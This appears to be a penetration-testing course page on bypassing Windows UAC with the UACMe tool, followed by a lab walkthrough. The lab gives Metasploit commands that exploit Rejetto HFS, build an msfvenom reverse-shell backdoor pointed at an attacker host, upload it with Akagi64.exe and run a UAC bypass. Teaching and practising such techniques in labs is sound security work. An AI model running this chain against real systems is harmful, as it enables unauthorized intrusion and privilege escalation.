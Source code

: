 The tool UACMe

* It is an open source, robust privilege escalation tool develop by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques. (https://github.com/hfiref0x/UACME)
* The UACMe GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
* It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool.
* The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

#### Lab

```bash
john@attack> nmap 10.2.22.220
john@attack> msfconsole

msf6> setg RHOSTS 10.2.22.220
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> exploit

meterpreter> sysinfo
```

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter> pgrep explorer  # 2448
meterpreter> migrate 2448
meterpreter> getuid          # VICTIM\admin
meterpreter> sysinfo
```

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

```
meterpreter> getprivs
```

<figure><img src="../../.gitbook/assets/53.png" alt=""><figcaption></figcaption></figure>

```bash
# create the listener
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe
john@attack> msfconsole

msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.5.2
msf6> set lport 1234
msf6> run
```

```bash
# go back to meterpreter
meterpreter> cd C:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload /root/backdoor.txt
meterpreter> upload /root/Desktop/tool/UACME/Akagi64.exe
meterpreter> shell

C:\Temp> .\Akagi64.exe 23 C:\Temp\backdoor.exe
```
